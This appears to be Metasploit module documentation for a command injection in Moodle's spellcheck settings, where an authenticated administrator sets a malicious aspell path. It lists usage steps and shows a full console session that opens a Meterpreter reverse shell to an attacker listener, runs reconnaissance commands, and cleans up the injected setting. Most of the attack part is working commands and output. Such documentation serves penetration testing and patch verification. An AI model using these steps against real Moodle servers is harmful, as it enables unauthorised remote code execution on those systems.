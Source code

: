 ## Vulnerable Application

Moodle allows an authenticated administrator to define spellcheck settings via the web interface.
An administrator can update the aspell path to include a command injection. This is extremely
similar to CVE-2013-3630, just using a different variable.

This module was tested against Moodle version 3.10.0, and 3.8.0.

### Install

Moodle provides a step by step guide to install their software
[here](https://docs.moodle.org/311/en/Step-by-step_Installation_Guide_for_Ubuntu)

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploits/multi/http/moodle_spellcheck_cmd_exec`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a shell.

## Options

### Passowrd

Password of an administrator.

### Username

Username of an administrator. Defaults to `admin`

## Scenarios

### Moodle 3.10.0 on Ubuntu 20.04

```
resource (moodle_spellcheck.rb)> use exploits/multi/http/moodle_spellcheck_cmd_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (moodle_spellcheck.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (moodle_spellcheck.rb)> set username admin
username => admin
resource (moodle_spellcheck.rb)> set password Adminadmin1!
password => Adminadmin1!
resource (moodle_spellcheck.rb)> set targeturi /moodle-3.10.0/
targeturi => /moodle-3.10.0/
resource (moodle_spellcheck.rb)> set payload payload/php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
resource (moodle_spellcheck.rb)> set lhost eth0
lhost => eth0
resource (moodle_spellcheck.rb)> exploit
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Moodle instance found, version unknown
[*] Authenticating as user: admin with login token Em5QrqGXT96iLHXKaTDoIwArMueav9Hq
[*] Updating aspell path
[*] Changing spell engine to PSpellShell
[*] Triggering payload
[*] Sending stage (39282 bytes) to 1.1.1.1
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:56014) at 2021-08-27 17:49:36 -0400
[*] Sleeping 5 seconds before cleanup
[*] Authenticating as user: admin with login token mPj0QEp8KtPDgm8K9PNUauMu7wdwnSFY
[*] Removing RCE from settings

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : moodle
OS          : Linux moodle 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux
meterpreter > exit
```
